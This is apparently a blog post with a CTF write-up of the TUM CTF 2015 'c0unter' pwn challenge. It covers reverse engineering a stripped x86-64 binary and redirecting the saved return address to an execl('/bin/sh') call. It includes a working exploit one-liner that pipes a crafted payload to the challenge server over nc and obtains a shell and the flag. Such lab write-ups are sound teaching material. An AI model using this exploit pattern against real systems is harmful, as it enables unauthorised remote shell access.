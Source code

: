 ```yaml
---
layout: post
title:  "TUM CTF 2015 Teaser - c0unter (pwn 25)"
date:   2015-10-30 20:00
categories: ctf exploit
---
```


I had the possiblity to play a few hours on [TUM CTF Teaser][tum]. It was
nicely organized and the challenges were fun to solve - even for the easy ones.
Here is the first write-up I am going to publish for that CTF.

#Basic information

From the organizers:
{% highlight text %}
Pwn / c0unter
Baby's 1st
ctf.link/assets/downloads/pwn/counter
nc 1.ctf.link 1031
25 Points
{% endhighlight %}

We are facing an ELF 64-bit binary, stripped and with only NX enabled:
{% highlight shell-session %}
$ file counter
counter: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically
linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32,
BuildID[sha1]=b065123973be4586a6b10f277cda428776bde80b, stripped

$ checksec --file counter
RELRO           STACK CANARY      NX            PIE
No RELRO        No canary found   NX enabled    No PIE
RPATH      RUNPATH      FILE
No RPATH   No RUNPATH   counter
{% endhighlight %}

By looking at the relocation table, we can see that the binary must have
somewhere a call to `execl` and another to `fscanf`:
{% highlight shell-session %}
$ objdump -R counter

counter:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
0000000000600c68 R_X86_64_GLOB_DAT  __gmon_start__
0000000000600d00 R_X86_64_COPY     stdin
0000000000600c88 R_X86_64_JUMP_SLOT  free
0000000000600c90 R_X86_64_JUMP_SLOT  __isoc99_fscanf     <=
0000000000600c98 R_X86_64_JUMP_SLOT  puts
0000000000600ca0 R_X86_64_JUMP_SLOT  __libc_start_main
0000000000600ca8 R_X86_64_JUMP_SLOT  __gmon_start__
0000000000600cb0 R_X86_64_JUMP_SLOT  malloc
0000000000600cb8 R_X86_64_JUMP_SLOT  exit
0000000000600cc0 R_X86_64_JUMP_SLOT  execl               <=
{% endhighlight %}

#Disassembling

When interacting with the service, no welcome message or instruction is
provided, it only seems to echo our input. The call to fscanf is made at `0x40074f`:
{% highlight shell-session %}
$ objdump -M intel -d counter
[snip]
40074f: e8 0c fe ff ff        call   400560 <__isoc99_fscanf@plt>
[snip]
{% endhighlight %}

In GDB with [peda][peda], we can see the arguments given to `fscanf`:
{% highlight shell-session %}
gdb-peda$ b *0x40074f
Breakpoint 1 at 0x40074f
gdb-peda$ r
[snip]
Guessed arguments:
arg[0]: 0x7ffff7dd5900 --> 0xfbad2088 
arg[1]: 0x4008dc --> 0x7331313525 ('%511s')
arg[2]: 0x600d40 --> 0x0 
arg[3]: 0x0 
[snip]
{% endhighlight %}

The first argument is the address of `stdin` in the glibc, the second argument
is the format used to interpret our input and the third argument is the address
of the destination buffer where our input is stored.

Between `0x400794` and `0x4007ae` we can see that the code loops over the buffer, count the occurence of each character of our input and save that information on the stack:

{% highlight shell-session %}
0x400794: mov    eax,0x600d40             ; address of the buffer
0x400799: lea    rcx,[rbp+rax*1+0x0]      ; number of bytes read by fscanf
0x40079e: xchg   ax,ax
0x4007a0: movzx  edx,BYTE PTR [rax]       ; get the value of the current byte
0x4007a3: add    rax,0x1                  ; offset of the next char
0x4007a7: add    BYTE PTR [rsp+rdx*1],0x1 ; increment the counter of this byte
                                          ; by 1
0x4007ab: cmp    rax,rcx
0x4007ae: jne    0x4007a0
{% endhighlight %}

This can be interpreted as the following C code:
{% highlight c %}
for (i = 0; i < input_length; ++i) {
  *(rsp + input[i]) += 1;
}
{% endhighlight %}

As a byte can contain a value between 0x00 and 0xff, we can manipulate the
stack from its top to 256 bytes further. If the saved `rip` value is contained
within that range, we can hijack the flow of the program.

Here is an example where I've fed the binary with the string `AAAABBBBCCCCDDDD`. To do that I usually create a `fifo`:
{% highlight shell-session %}
$ mkfifo fifo
{% endhighlight %}

In gdb, I use it to feed the binary through its standard input:
{% highlight shell-session %}
gdb-peda$ r < fifo
{% endhighlight %}

And in another shell, I can use any commands to feed the fifo:
{% highlight shell-session %}
$ echo 'AAAABBBBCCCCDDDD' > fifo
$ echo -e -n '\xde\xad\xbe\xef' > fifo
$ python2 -c 'print "..."' > fifo
$ ./script > fifo
{% endhighlight %}

Here is the stack before executing the vulnerable function:
{% highlight shell-session %}
gdb-peda$ x/22gx $rsp
0x7fffffffdc00:	0x0000000000000000	0x0000000000000000
0x7fffffffdc10:	0x0000000000000000	0x0000000000000000
0x7fffffffdc20:	0x0000000000000000	0x0000000000000000
0x7fffffffdc30:	0x0000000000000000	0x0000000000000000
0x7fffffffdc40:	0x0000000000000000	0x0000000000000000
0x7fffffffdc50:	0x0000000000000000	0x0000000000000000
0x7fffffffdc60:	0x0000000000000000	0x0000000000000000
0x7fffffffdc70:	0x0000000000000000	0x0000000000000000
0x7fffffffdc80:	0x0000000000400850	0x0000000000000000
0x7fffffffdc90:	0x0000000000400850	0x00000000004005d9
0x7fffffffdca0:	0x0000000000000000	0x00007ffff7a57610
{% endhighlight %}

And here it is after the execution of the vulnerable function:
{% highlight shell-session %}
gdb-peda$ x/22gx $rsp
0x7fffffffdc00:	0x0000000000000000	0x0000000000000000
0x7fffffffdc10:	0x0000000000000000	0x0000000000000000
0x7fffffffdc20:	0x0000000000000000	0x0000000000000000
0x7fffffffdc30:	0x0000000000000000	0x0000000000000000
0x7fffffffdc40:	0x0000000404040400	0x0000000000000000
0x7fffffffdc50:	0x0000000000000000	0x0000000000000000
0x7fffffffdc60:	0x0000000000000000	0x0000000000000000
0x7fffffffdc70:	0x0000000000000000	0x0000000000000000
0x7fffffffdc80:	0x0000000000400850	0x0000000000000000
0x7fffffffdc90:	0x0000000000400850	0x00000000004005d9
0x7fffffffdca0:	0x0000000000000000	0x00007ffff7a57610
{% endhighlight %}

You can see that the bytes between addresses `0x7fffffffdc41` and
`0x7fffffffdc44` have been incremented by 4. These addresses correspond to the
address of `rsp`, `0x7fffffffdc00`, plus the value in bytes of `A`, `B`, `C`
and `D`: `0x41`, `0x42`, `0x43` and `0x44` respectively. You may find more
information about ASCII characters value in hexadecimal [here][ascii].

#Exploitation

Here is the information about the current stack frame, when the vulnerable code is executed:
{% highlight shell-session %}
gdb-peda$ i frame
Stack level 0, frame at 0x7fffffffdca0:
 rip = 0x40074f; saved rip = 0x4005d9
 called by frame at 0x7fffffffdcb0
 Arglist at 0x7fffffffdbf8, args: 
 Locals at 0x7fffffffdbf8, Previous frame's sp is 0x7fffffffdca0
 Saved registers:
  rbx at 0x7fffffffdc88, rbp at 0x7fffffffdc90, rip at 0x7fffffffdc98
{% endhighlight %}

The distance from the top of the stack (`rsp`) and the location of the saved `rip` is 152 bytes:
{% highlight shell-session %}
gdb-peda$ distance $rsp 0x7fffffffdc98
From 0x7fffffffdc00 to 0x7fffffffdc98: 152 bytes, 38 dwords
gdb-peda$
{% endhighlight %}

If we send to the binary bytes having values between 152 (`0x98`) and 160 (`0xa0`),
we can change the value of the saved `rip` and control the flow of the program
when the current function return.

As mentionned earlier, there is at least a call to `execl` somewhere is the code:
{% highlight shell-session %}
$ objdump -M intel -d counter | grep -B 5 execl
[snip]
4006e0:	bf d4 08 40 00       	mov    edi,0x4008d4
4006e5:	48 83 ec 08          	sub    rsp,0x8
4006e9:	31 d2                	xor    edx,edx
4006eb:	be d9 08 40 00       	mov    esi,0x4008d9
4006f0:	31 c0                	xor    eax,eax
4006f2:	e8 c9 fe ff ff       	call   4005c0 <execl@plt>
[snip]
{% endhighlight %}

This shows to complete call to `execl`:

* the first argument is a string located at `0x4008d4`
* the second argument is a string located at `0x4008d9`
* and the third argument is `0` (`xor    edx,edx`), which is used to indicate
  the end of the arguments list. Here are the strings:
{% highlight shell-session %}
gdb-peda$ x/s 0x4008d4
0x4008d4:	"/bin/sh"
gdb-peda$ x/s 0x4008d9
0x4008d9:	"sh"
{% endhighlight %}

This gives us the following call: `execl("/bin/sh", "sh");`

Let's replace the saved `rip` with `0x4006e0` so that we can spawn a shell when
the function returns.  Saved `rip` minus the address of the call to execl will
give us the number of characters we have to use:

`0x4006e0 - 0x4005d9 = 0x0107` or `0xe0 - 0xd9 = 0x07` and `0x06 - 0x05 = 0x01`

This means that the lowest byte of saved `rip` must be incremented 7 times and
the next one, once:
{% highlight shell-session %}
$ (python2 -c 'print 7 * "\x98" + "\x99" + "\0\0\0\0"'; cat) \
  | nc -v 1.ctf.link 1031
Connection to 1.ctf.link 1031 port [tcp/*] succeeded!
id
uid=1000(counter) gid=1000(counter) groups=1000(counter)
ls -la
total 32
drwxr-xr-x 2 root root 4096 Oct 24 21:00 .
drwxr-xr-x 6 root root 4096 Oct 24 21:00 ..
-rwxr-xr-x 1 root root 5384 Oct 24 00:38 counter
-rw-r--r-- 1 root root   32 Oct 24 12:59 flag.txt
-rwxr-xr-x 1 root root 9384 Oct 24 15:51 ynetd
cat flag.txt
hxp{0verflow1ng_ch4c4cters_w1n}
{% endhighlight %}

Pwned for the glory of the almighty technoviking!
![technoviking](https://www.zazzle.com/rlv/techno_viking_by_redrevolt_make_me_proud_poster-r40c1f27408414a17b6c3c70d65458264_w1t_8byvr_512.jpg)

[tum]: https://ctftime.org/event/238
[peda]: https://github.com/longld/peda
[ascii]: http://www.asciitable.com/
